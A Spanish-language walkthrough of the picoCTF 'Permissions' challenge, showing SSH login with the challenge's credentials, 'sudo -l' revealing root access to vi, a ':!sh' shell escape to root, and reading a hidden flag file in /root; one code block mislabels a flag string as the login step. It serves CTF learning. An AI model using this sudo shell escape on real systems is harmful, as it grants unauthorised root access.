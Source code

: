 # Permissions

Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 50841 picoplayer@saturn.picoctf.net`Password: `UYiOazkqY2`Can you login and read the root file?

1. Iniciamos sesión con ssh
	```
	picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}
	password: UYiOazkqY2
	```

2. Ejecutamos el comando ``sudo -l``
	```
	sudo -l
	output: 
	Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
	```
	Este comando lista los privilegios que tenemos como usuario. Saber qué comandos podemos ejecutar con permisos de superusuario (root) permiten planificar una estrategia. En este caso vemos que podemos usar ``usr, bin y vi``.

3. Accedemos al editor de texto Vim.
	```
	sudo vi ó sudo vim
	```
	Vim es un editor de texto con la capacidad de ejecutar comandos del sistema si se abre con permisos elevados (sudo). Usamos Vim para editar archivos y acceder a un shell de root.

4. Ejecutamos un shell dentro de Vim.
	```
	:!sh
	```
	``:!sh`` ejecuta un shell (sh) desde dentro de Vim con los mismos permisos que se usaron para abrir Vim. Como abrimos Vim con sudo, este shell tendrá permisos de superusuario, permitiéndonos ejecutar comandos con los privilegios de root.

5. Navegar al directorio raíz
	```
	cd /root
	```
	``/root`` es el directorio home del usuario root. Es común que los archivos que contienen la bandera en desafíos CTF se encuentren en ubicaciones accesibles sólo para el usuario root.

6. Encontrar y leer el archivo de la bandera
	```
	ls -a
	cat .flag.txt
	```
	``ls -a`` muestra todos los archivos, incluidos los ocultos (los que comienzan con un punto). En muchos desafíos, las banderas se ocultan para añadir dificultad. ``cat .flag.txt`` muestra el contenido del archivo, revelando la bandera.
